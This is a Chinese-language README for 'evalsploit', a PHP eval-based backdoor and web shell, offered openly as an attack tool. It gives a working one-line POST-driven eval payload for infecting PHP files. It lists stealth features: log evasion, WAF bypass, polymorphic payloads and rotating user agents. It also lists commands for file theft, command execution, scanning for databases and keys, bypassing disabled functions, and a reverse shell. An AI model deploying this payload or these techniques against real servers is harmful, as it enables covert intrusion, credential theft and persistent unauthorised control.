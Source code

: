 # evalsploit 中文版
# [evalsploit по-русски](README_RU.md)
# [evalsploit english](README.md)

# evalsploit
基于eval function的后门，可作为独立的web-shell（网页后门）

### 功能

-   **隐身**
    -   适用于POST请求 ，几乎不可见日志
    -   内置WAF 旁路功能
    -   每个新会话都有新的用户代理
    -   隐身操作设置
    -   多态有效载荷


-   **通用**
    -   有效载荷可添加到PHP代码的任何部分
    -   适用于 Linux, Windows, Mac OS

# 使用手册

#### 入门

1) 使用有效载荷感染PHP或作为一个独立的外壳
`if(isset($_POST['Z'])){@eval(base64_decode(str_replace($_POST['V'], '' ,$_POST['Z'])));die();}`
2) 当启动程序时，evalsploit将需要链接到含有效负荷的文件
3) 当更改 `send` 模块（见于“程序设置”）时，使用 `gen` 指令生成新的有效负载

#### 使用文件系统

-   `ls`: 该目录中文件的列表
	-   设置 `ls`: 基于 DirectoryIterator（默认支持）
	-   设置 `dir`: 基于 ScanDir

-   `cp`: 复制文件
    -   使用分隔号 ` : ` (/what.txt : /where/what.txt )

-   `cd`: 通过文件系统进行移动

-	`mkd`: 创建新目录

-	`upl`: 上传文件到服务器

-	`home`: 回到 \_\_DIR\_\_

-	`pwd`: 打印活动目录

#### 使用文件

-   `cat`: 使用文件
    -   设置 `html`: 基于 htmlentities 
	-   设置 `base64`: 基于 base64_encode\base64_decode (设置默认)

-   `rm`: 删除文件

-   `dl`: 下载文件（下载到/下载文件夹）
	-	不能处理大于100MB的文件
	
-   `edit`: 编辑文件内容
	-	不能处理大于100MB的文件

-	`mkf`: 创建新文件

-	`touch`: 更改文件时间戳
	-	使用 ` settime ` 分隔 (file.рhр settime Year-Month-Day Hour:Minute:Second)

-	`stat`: 文件信息

-	`ren`: 重命名文件
	-	使用分隔 ` : ` (/where/old.txt : new.php )


#### 使用evalsploit系统

-   `run`: 切换到命令行模式
	-	`exit` 退出模式
	-	支持 exec, shell_exec, system, passthru, popen, proc_open, expect_popen, pcntl_exec, do
	
-	`info`: 服务器信息
	-	php 版本, OS
	
-	`scan`: 扫描所选目录
	-	搜索系统 PHP, 数据库、密钥等
	
-	`exploit`: 使用内置漏洞绕过已禁用的命令行，激活命令行模式
	-	`exit` 退出模式

-	`reverse`: reverse-shell - `reverse IP:PORT`
	
-	`gen`: 根据发送模块生成有效负载
	
-	`help`: 首页
	
-	`exit`: 退出
	
	
	
#### 程序设置

-	`set`: 配置模块。要查看参数列表请使用 `set module help`
	-	代替 `help` 可接受 `-h`, `h`, `?`, `/?`)
	-	**run**: `exec`, `shell_exec`, `system`, `passthru`, `popen`, `proc_open`, `expect_popen`, `pcntl_exec`, `do`
	-	**ls**: `ls`, `dir`
	-	**cat**: `html`, `base64`
	-	**silent**: `1`, `0` (隐身)
	-	**reverse**: `ivan`, `monkey` 
	-	**send**: `bypass`, `classic`, `simple` (发送模块)
	

